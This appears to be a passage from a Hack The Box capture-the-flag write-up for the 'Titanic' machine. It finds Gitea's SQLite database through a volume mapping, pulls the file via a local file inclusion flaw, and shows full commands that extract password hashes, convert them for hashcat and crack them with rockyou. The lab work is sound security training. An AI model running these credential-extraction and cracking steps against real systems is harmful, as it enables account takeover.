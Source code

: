 In the `docker-compose.yml` file of the `gitea` service, we can see the following:

```yaml
services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22" # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
```

In your Docker Compose setup, the Gitea service mounts the host directory `/home/developer/gitea/data` to the container's `/data` directory. By default, Gitea stores its SQLite database file at `/data/gitea/gitea.db` inside the container. Given the volume mapping, this corresponds to the following path on the host system:

```text
/home/developer/gitea/data/gitea/gitea.db
```

## Extracting Credentials via LFI

Using the LFI vulnerability, we retrieved the `gitea.db` SQLite database file:

![Titanic - gitea.db](/ctf/hack-the-box/machines/titanic/gitea-db.png)

We then used `sqlite3` to explore the contents:

```bash
sqlite3 gitea.db
sqlite> .tables
sqlite> SELECT * FROM user;
```

We extracted the password hashes and salt values and converted them into a format suitable for hashcat:

```bash
sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
```

We then cracked the hashes using hashcat:

```bash
hashcat gitea.hashes /usr/share/wordlists/rockyou.txt --user
```
